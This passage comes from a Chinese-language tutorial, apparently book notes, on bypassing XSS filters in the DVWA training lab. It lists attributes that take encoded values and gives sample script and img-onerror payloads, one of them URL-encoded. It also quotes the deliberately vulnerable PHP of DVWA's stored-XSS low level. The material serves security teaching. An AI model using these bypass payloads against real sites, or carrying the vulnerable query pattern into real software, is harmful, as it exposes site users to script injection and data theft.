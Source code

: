 返回结果里面多了一个>，而且还没有提示框，极有可能是做了转义字符的安全操作，转义的绕过方法就是编码注入和重写绕过；

#### 编码注入

注意：只有以下属性能够进行编码

```javascript
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
data= //只支持base64
```

下面这种方式是不是怪怪的，是无法注入的；

```javascript
<scrpit>alert('Hello World')</script>
0x3c7363727069743ealert('Hello World')</script>
<scrpit>alert('Hello World')0x3c/script0x3e
```

我们不推荐使用这种双标签，推荐使用单标签，并不是说双标签不能注入，而是多点字符，容易出错，单标签能插入数据的有这种，图片<img>以及及不常用的<iframe>

```javascript
<img src="x" onerror="alert%28%22Hello%20World%22%29" >
```

![image-20230510091552997](D:\Document\My_book\My_Books\钟全龙著\img\image-20230510091552997.png)

这里我们将其编码成了URL注入成功了，可以尝试Base64等其他的编码方式；

## XSS存储型注入通关

### XSS-Stored Low

服务端的核心代码

```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
// Get input
$message = trim( $_POST[ 'mtxMessage' ] );
$name = trim( $_POST[ 'txtName' ] );
// Sanitize message input
$message = stripslashes( $message );
$message = mysql_real_escape_string( $message );
// Sanitize name input
$name = mysql_real_escape_string( $name );
// Update database
$query = "INSERT INTO guestbook ( comment, name ) VALUES ( '$mes
sage', '$name' );";
$result = mysql_query( $query ) or die( '<pre>' . mysql_error() .
'</pre>' );
//mysql_close();
}
?>
```
